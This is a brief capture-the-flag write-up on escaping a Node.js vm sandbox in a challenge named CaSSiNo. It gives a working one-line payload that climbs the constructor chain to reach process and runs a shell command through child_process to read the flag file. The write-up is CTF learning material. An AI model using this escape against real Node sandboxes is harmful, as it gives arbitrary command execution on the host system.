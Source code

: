 # CaSSiNo
By observing the source code, we can see that we can input any javascript code in prompt to run it in VM (nodejs module). 
# The Source Code
The main function call in this programm is 
```javascript
const result = vm.runInNewContext(input)
```
This means that whatever input we give the binary, it will run it in a new context, of course, without any filters.
# The Solution
I'm not too familiar with nodejs nor node vm modules so I searched up `node vm security` and I found an article on [Pwnisher Blog](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html) called `Sandboxing NodeJS is hard, here is why` . It basically is set up almost identical to this challenge. By modifing the payload a bit I got:
```javascript

const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').execSync('cat /ctf/flag.txt').toString()
```
Since we know the flag location from the hint, we can just put that in.
```
==> flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
```
